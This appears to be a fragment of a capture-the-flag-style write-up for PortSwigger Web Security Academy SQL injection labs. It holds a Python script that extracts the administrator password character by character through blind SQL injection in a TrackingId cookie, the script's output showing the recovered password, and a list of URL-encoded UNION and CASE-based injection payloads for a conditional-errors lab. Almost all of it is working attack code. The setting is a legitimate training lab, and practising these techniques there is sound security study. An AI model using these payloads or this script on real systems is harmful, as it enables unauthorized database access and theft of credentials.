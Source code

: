 ```python
    for i in range(1, 100):
        found = False
        for c in chars:
            try:
                #r = requests.post("http://" + host + ":" + port + "/",data=payload(query(i,c,e)), timeout=delay)
                cookies = {'TrackingId': urllib.parse.quote_plus(query(i,c,e))}
                r = requests.get("https://0ae3001d03cc1db3c0d7979500ba00f0.web-security-academy.net/", cookies=cookies)
                if "Welcome back" in r.text:
                    sys.stdout.write(c)
                    sys.stdout.flush()
                    found = True
                    break
                #print(r.text);exit()
                if e==0 and c == chars[-1] and i==1:
                    print(r.text)
                    exit()
            except requests.exceptions.Timeout:
                sys.stdout.write(c)
                sys.stdout.flush()
                found = True
                break
        if not found:
            break
    sys.stdout.write('\n')
 
print("\nDone! Try Harder!")
```

```
' UNION SELECT 'a' FROM users WHERE username='administrator' AND substring(password, 1,1)='1'--
Running!
bo5kgsj0n4n3rvmmaijq
bo5kgsj0n4n3rvmmaijq
bo5kgsj0n4n3rvmmaijq
bo5kgsj0n4n3rvmmaijq
bo5kgsj0n4n3rvmmaijq
```

### Blind SQL injection with conditional errors
https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors

`%27%2D%2D`

```
%27%20ORDER%20BY%201%2D%2D
%27%20UNION%20SELECT%20%27a%27%20FROM%20users%2D%2D
%27%20UNION%20SELECT%20password%20FROM%20users%2D%2D
' UNION SELECT (CASE WHEN (1=0) THEN CAST(1/1 AS CHAR) ELSE 'a' END) FROM users--
%27%20UNION%20SELECT%20%28CASE%20WHEN%20%281%3D0%29%20THEN%20CAST%281%2F0%20AS%20CHAR%29%20ELSE%20%27a%27%20END%29%20FROM%20users%2D%2D
```
